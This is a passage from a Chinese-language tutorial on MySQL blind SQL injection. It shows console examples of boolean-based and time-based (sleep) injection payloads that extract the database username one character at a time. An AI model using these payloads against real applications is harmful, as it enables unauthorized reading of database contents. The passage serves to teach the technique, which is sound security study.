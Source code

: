 

```plain
// 十进制转码
mysql> select char(111);
+-----------+
| char(111) |
+-----------+
| o         |
+-----------+
1 row in set (0.00 sec)
```



## 0x02.3 解法一-布尔盲注查询数据库用户名

substring, substr, mid 这3个函数利用方式都是一样的，所以就只举例一个



```plain
// 正确的情况
mysql> SELECT * from test where id = 1 and (select ascii(mid(user() from 1))=114);
+----+------+------+---------+
| id | test | map  | content |
+----+------+------+---------+
|  1 | 1    | NULL | NULL    |
+----+------+------+---------+
1 row in set (0.00 sec)
```



```plain
// 错误的情况
mysql> SELECT * from test where id = 1 and (select ascii(mid(user() from 1))=119);
Empty set (0.00 sec)
```



## 0x02.4 解法一-延时盲注查询数据库用户名

substring, substr, mid 这3个函数利用方式都是一样的，所以就只举例一个

```plain
// 正确的情况
mysql> SELECT * from test where id = 1 and case when(ascii(substring(user() from 1))=114) then sleep(5) else 0 end;
Empty set (5.00 sec)
```



```plain
// 错误的情况
mysql> SELECT * from test where id = 1 and case when(ascii(substring(user() from 1))=119) then sleep(5) else 0 end;
Empty set (0.00 sec)
```
